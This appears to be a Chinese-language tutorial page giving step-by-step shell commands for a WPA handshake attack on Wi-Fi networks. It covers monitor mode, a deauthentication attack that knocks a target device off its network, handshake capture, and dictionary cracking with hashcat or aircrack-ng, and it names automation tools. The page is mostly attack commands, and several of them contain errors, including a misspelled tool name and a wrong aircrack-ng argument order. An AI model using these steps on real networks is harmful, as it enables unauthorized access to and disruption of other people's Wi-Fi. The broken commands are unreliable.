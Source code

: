 # WPA 握手包攻击

## 手动

1. 查看網絡設備, 獲取無線網卡名稱.

    ```sh
    iwconfig
    ```

2. 開啓無線網卡監聽模式.

    ```sh
    sudo airmon-ng start wlan0
    ```

    若设备被占用, 执行下列命令来结束占用设备的进程:  

    ```sh
    sudo airmon-ng check kill
    ```

    開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

    !!! warning
        監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 WiFi 信號.

    ```sh
    sudo airodunp-ng wlan0mon
    ```

    當發現目標 WiFi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 WiFi 通信內容.

    ```sh
    sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid  [BSSID] wlan0mon
    ```

5. 斷開指定設備與指定 WiFi 的鏈接.

    ```sh
    sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
    ```

    目標設備從指定 WiFi 斷開鏈接後將嘗試重連, 會向路由器發送握手包. 而第 4 步將會捕獲這個握手包.

6. 當第 4 步提示捕獲握手包時按下 `Ctrl+C` 結束監聽.

    此時, 握手包的數據已經被記錄在第4步指定的 `.cap` 文件中.

7. 對 `.cap` 文件中握手包的hash進行破解.

    - 使用 Hashcat. (推薦)

        ```sh
        aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
        hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
        ```

    - 使用 aircrack-ng.

        ```sh
        aircrack-ng -w [.cap存檔文件] [字典文件]
        ```

8. 關閉無線網卡監聽模式.

    ```sh
    sudo airmon-ng stop wlan0mon
    ```

    若第 2 步中结束的进程没有自动恢复, 则需要手动启动.

## 自动

可以利用 [wifite2](https://github.com/derv82/wifite2)/[WEF](https://github.com/D3Ext/WEF) 来简化上面的流程.  

![Wifite2 WAP Handshake attack](https://camo.githubusercontent.com/241679fd57d09ce160bbaf04886b896d1d101d405fc4d692954beefc8e477a07/68747470733a2f2f692e696d6775722e636f6d2f4636565068626d2e676966)
